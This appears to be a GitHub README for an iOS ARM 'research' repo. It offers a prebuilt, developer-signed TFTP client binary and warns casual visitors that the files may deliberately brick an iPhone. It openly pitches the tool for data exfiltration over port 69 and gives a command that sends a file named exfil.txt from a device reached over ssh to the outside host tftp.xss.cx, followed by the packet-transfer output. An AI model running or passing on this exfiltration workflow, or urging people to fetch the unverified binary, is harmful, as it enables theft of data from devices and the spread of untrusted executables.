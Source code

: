 # ios-arm-research
iOS, ARM, Research

Note to those coming to this Repo in a Blind manner.. you really don't want to be downloading anything here, it'll probably brick you iphone, on purpose.
To those who land here Blind, be so careful what you download from the Internet.. these files are for troubleshoot technical support issue and have a very specific context.

To the people that I sent here, you're in the right place. Keep going.. this is th right place to be... :-)

Updated Jan 25 2021

The file named 'client' is a Binary ARM file for TFTP Command Line on iOS and its signed with my Developer ID for convenience for iOS Research

usage: ./client [-p port] [-h hostname] -f filename

Reminder: Its a TFTP CLI Executable, so you need a TFTP Server and a few other things to make it all work..

Comment: the compiled file may be really helpful since you may want to exfil via port 69.

The files in this Repo.. starting point for why you came.. refer back to that Post for the Makefile mods ... the Makefile here is for Intel Platform.. so you need to read that Post on cross compilation for client .... OR just copy the client binary..its iOS ready to run. 


Putting it all together.. 
you'll be ssh into /dev/thingy

./client -h tftp.xss.cx -p 69 -f exfil.txt

...
...
Packet '143966' sent
Packet '143967' sent
Packet '143968' sent
Packet '143969' sent
FIN '143970' sent
Goodbye




